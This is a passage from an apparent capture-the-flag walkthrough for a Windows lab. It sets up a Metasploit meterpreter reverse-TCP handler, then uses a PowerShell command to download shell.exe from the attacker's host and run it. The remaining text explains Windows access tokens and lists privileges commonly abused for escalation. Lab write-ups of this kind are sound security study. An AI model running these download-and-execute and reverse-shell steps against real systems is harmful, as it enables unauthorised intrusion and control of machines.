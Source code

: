 ```
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf5 exploit(multi/handler) > set LHOST tun0
LHOST => 10.8.14.151
msf5 exploit(multi/handler) > set LPORT 9696
LPORT => 9696
msf5 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
```

```cmd
PS C:\Users\bruce\Desktop> powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.8.14.151:8888/shell.exe','shell.exe')"
PS C:\Users\bruce\Desktop> ./shell.exe
```


# root
Windows uses tokens to ensure that accounts have the right privileges to carry out particular actions. Account tokens are assigned to an account when users log in or are authenticated. This is usually done by LSASS.exe(think of this as an authentication process).

This access token consists of:
- user SIDs(security identifier)
- group SIDs
- privileges

There are two types of access tokens:
- primary access tokens: those associated with a user account that are generated on log on
- impersonation tokens: these allow a particular process(or thread in a process) to gain access to resources using the token of another (user/client) process

For an impersonation token, there are different levels:
- SecurityAnonymous: current user/client cannot impersonate another user/client
- SecurityIdentification: current user/client can get the identity and privileges of a client, but cannot impersonate the client
- SecurityImpersonation: current user/client can impersonate the client's security context on the local system
- SecurityDelegation: current user/client can impersonate the client's security context on a remote system

where the security context is a data structure that contains users' relevant security information.

The privileges of an account(which are either given to the account when created or inherited from a group) allow a user to carry out particular actions. Here are the most commonly abused privileges:
Here are the most commonly abused privileges:
- SeImpersonatePrivilege
- SeAssignPrimaryPrivilege
- SeTcbPrivilege
- SeBackupPrivilege
- SeRestorePrivilege
- SeCreateTokenPrivilege
- SeLoadDriverPrivilege
- SeTakeOwnershipPrivilege
- SeDebugPrivilege
